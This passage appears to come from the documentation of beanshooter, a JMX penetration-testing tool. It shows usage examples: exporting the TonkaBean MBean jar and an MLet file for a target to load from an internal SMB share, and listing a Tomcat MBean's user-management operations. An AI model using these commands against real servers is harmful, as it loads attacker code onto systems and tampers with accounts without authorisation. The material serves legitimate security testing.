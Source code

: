 From *beanshooter v4.1.0* on, it is also possible to deploy the *TonkaBean* via the [standard](#standard) action.
Bean deployment via the `standard` action **does not** require outbound network connections from the target server.

#### Generic Export

Sometimes it is not possible to serve an *MBean* implementation using *beanshooters* stager server. A common
scenario is that outbound connections to your local machine are blocked. In these situations, you may want
to load the *MBean* from another location, like an *SMB* service in the internal network where you have write
access to.

The `export` action exports the *jar* file implementing the specified *MBean* and a corresponding *MLet HTML*
document that is required for loading the *MBean* using *MLet*. Assuming you want to serve the *TonkaBean*
form an *SMB* service listening on `10.10.10.5`, you could use the following command:

```console
[qtc@devbox ~]$ beanshooter tonka export --export-dir export --stager-url file:////10.10.10.5/share/
[+] Exporting MBean jar file: export/tonka-bean-3.0.0-jar-with-dependencies.jar
[+] Exporting MLet HTML file to: export/index.html
[+] 	Class:     de.qtc.beanshooter.tonkabean.TonkaBean
[+] 	Archive:   tonka-bean-3.0.0-jar-with-dependencies.jar
[+] 	Object:    MLetTonkaBean:name=TonkaBean,id=1
[+] 	Codebase:  file:////10.10.10.5/share/
```

Afterwards, you can upload the exported *jar* and the `index.html` file to the *SMB* service and use the *beanshooters*
deploy action with the `--stager-url file:////10.10.10.5/share/index.html` option.

#### Generic Info

The `info` action lists method and attribute information of the specified *MBean*:

```console
[qtc@devbox ~]$ beanshooter tomcat info 172.17.0.2 1090
[+] MBean Class: org.apache.catalina.mbeans.MemoryUserDatabaseMBean
[+] ObjectName: Users:type=UserDatabase,database=UserDatabase
[+]
[+] 	Attributes:
[+] 		modelerType (type: java.lang.String , writable: false)
[+] 		readonly (type: boolean , writable: false)
[+] 		roles (type: [Ljava.lang.String; , writable: false)
[+] 		groups (type: [Ljava.lang.String; , writable: false)
[+] 		users (type: [Ljava.lang.String; , writable: false)
[+] 		pathname (type: java.lang.String , writable: true)
[+] 		writable (type: null , writable: false)
[+]
[+] 	Operations:
[+] 		java.lang.String findGroup(java.lang.String groupname)
[+] 		java.lang.String createUser(java.lang.String username, java.lang.String password, java.lang.String fullName)
[+] 		void removeGroup(java.lang.String groupname)
[+] 		void removeUser(java.lang.String username)
[+] 		void save()
[+] 		java.lang.String findRole(java.lang.String rolename)
[+] 		void removeRole(java.lang.String rolename)
[+] 		java.lang.String createGroup(java.lang.String groupname, java.lang.String description)
[+] 		java.lang.String findUser(java.lang.String username)
[+] 		java.lang.String createRole(java.lang.String rolename, java.lang.String description)
```
